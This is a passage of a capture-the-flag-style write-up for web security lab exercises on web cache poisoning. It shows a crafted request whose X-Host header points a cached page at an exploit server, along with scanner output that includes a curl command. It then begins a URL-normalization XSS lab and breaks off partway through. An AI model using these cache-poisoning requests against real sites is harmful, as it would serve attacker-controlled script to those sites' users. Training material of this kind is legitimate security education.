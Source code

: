 Update the Request

```http
GET / HTTP/1.1
Host: my.h1-web-security-academy.net
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
X-HOST: exploit-my.exploit-server.net
...
```

This should solve the lab.

### Automation

While  `wcvs` will find the Cache Poisoning we need bit of manual work to investigate `User-Agent` for this situation.

```shell
./wcvs -u https://0a73000904455853a7f3629800ef007b.h1-web-security-academy.net/ -gr
```

```shell
...
 --------------------------------------------------------------
| Header Poisoning
 --------------------------------------------------------------
Testing 1118 headers
[!] Unexpected Status Code 421 for 1st request of header Host
[*] header X-Host: Response Body contained 549270370434

[+] Header X-Host was successfully poisoned! cbwcvs: 524443806680 poison: 549270370434
[+] URL: https://0a73000904455853a7f3629800ef007b.h1-web-security-academy.net/?cbwcvs=524443806680
[+] Reason: Response Body contained 549270370434
[+] Curl: curl -X 'GET' -H 'Cookie: session=74XzhPguMhz3bJgJlZ7XIPLnrtOh7bFT' -H 'User-Agent: WebCacheVulnerabilityScanner v1.3.3' -H 'X-Host: 549270370434' 'https://0a73000904455853a7f3629800ef007b.h1-web-security-academy.net/?cbwcvs=524443806680'
...
```

## URL normalization
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab contains an XSS vulnerability that is not directly exploitable due to browser URL-encoding.

To solve the lab, take advantage of the cache's normalization process to exploit this vulnerability. 

Find the XSS vulnerability and inject a payload that will execute `alert(1)` in the victim's browser. Then, deliver the malicious URL to the victim.

#### Solution

Try to visit non existing page:
